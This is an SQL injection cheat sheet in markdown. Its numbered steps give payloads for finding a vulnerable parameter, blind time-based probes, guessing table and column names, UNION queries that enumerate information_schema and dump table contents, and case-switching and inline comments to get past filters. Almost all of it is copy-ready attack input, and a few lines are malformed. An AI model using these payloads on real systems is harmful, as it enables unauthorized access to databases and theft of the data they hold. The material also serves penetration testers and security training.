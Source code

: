 ## SQL-Injection-cheat-sheet

first try to figure out the vulnerable parameter

__NOTE: If it's a GET request don't forget to url encode the characters.__

```
param='  --> try to get error

param="   --> try to get error

param=' or 1=1 --> try if it works

param=' or 1=0  --> check if it returns nothing

param=' and 1=1  --> check if this works or produces error
```

Try with blind injection payloads if above commands does not produce error

```

' or sleep(2) and 1=1#  --> try get delay, sleep only operates when all other conditions are true and there is a requirement to operate it.

' or sleep(2)#  --> try get delay

admin' and sleep(2)#  --> will delay only if the user admin exists

' union select sleep(2),null#  --> check if it produces delay

' union select sleep(2),null,null,null,null#  --> check if it produces delay, check for different number of columns

```


Try if above queries work by appending comment at the end

```
param=' or 1=1#  --> try if it works

param=' or 1=1 -- one space needed  --> try if it works

param=' or 1=1 //  --> try if it works

param= or 1=1#  --> try if it works

param=and or 1=1#  --> try if it works

param=' or 1=1-- sd  --> try if it works

' AND (select 1)=1 <-- This should be TRUE Response -- subselect supported

```

* Now that we know the vulnerable parameter, let's try guessing the table name:

```

' AND (select 1 from admin limit 0,1)=1 <-- FALSE

' AND (select 1 from users limit 0,1)=1 <-- TRUE  ======> Table found 'users'
```


* Guessing Columns:

```
' AND (select substring(concat(1,pass),1,1) from users limit 0,1)=1 <-- FALSE

' AND (select substring(concat(1,password),1,1) from users limit 0,1)=1 <-- TRUE    =====> Column 'password' found.
```


* Now determine number of columns in the current table

```
param=' or 1=1 order by 1#

param=' or 1=1 order by 10#
```

let say there are 3 columns

* Now determine vulnerable columns or columns which are visible

```
param=' or 1=0 union select null,null,null# --> if it produces no error then try

param=' or 1=0 union select 1,2,3#  --> check which number shows in web page
```

Else try

```
param=' or 1=1 union select table_name,null,null from information_schema.tables#

if it produces error try table_name at other positions
```

Now, lets say column 1,2 are shown in web page

* To futher enumerate

```
param=' or 1=0 union select table_schema,null,null from information_schema.columns#  --> display all database name

Note 1=0 in above query to show only databases

param=' or 1=0 union select version(),null,null from information_schema.columns#  --> retrieve version

param=' or 1=0 union select @@version,null,null from information_schema.columns#  --> retrieve version in mssql

param=' or 1=0 union select substring(version(),1,1)=1,null,null from information_schema.columns#  --> return true if version is 1.x.x

param=' or 1=0 union select substring(version(),1,1)=5,null,null from information_schema.columns#  --> return true if version is 5.x.x

param=' or 1=0 union select substring(version(),3,1)=2,null,null from information_schema.columns#  --> return true if version is 5.2.x

param=' or 1=0 union select table_name,null,null from information_schema.columns#  --> display all table name

param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'#  --> display tables inside public database

param=' or 1=1 select column_name,null,null from information_schema.columns where table_schema='public' and table_name='info'#  --> display all columns of info table

param=' or 1=1 select table_name as table,column_name as column,null from information_schema.columns#
```

Let say the database name is `public` and table name is `info` with two columns in it `id` and `name`.


```
param=' or 1=0 union select id,null,null from public.info#  --> display id column from table "info"

param=' or 1=0 union select id,name,null from public.info#  --> display id and name column from table "info"

param=' or 1=0 union select id,name,null from public.info where id='papa'#  --> display id and name of 'papa'
```


* BYPASSING filters

we can use case switching or commenting to bypass basic filters

```
param=' or 1=0 UniOn selEct id,null,null FroM public.info#

param=' or 1=0 un/**/ion sele/**/ct id,null,null fr/**/om public.info# works in mssql
```



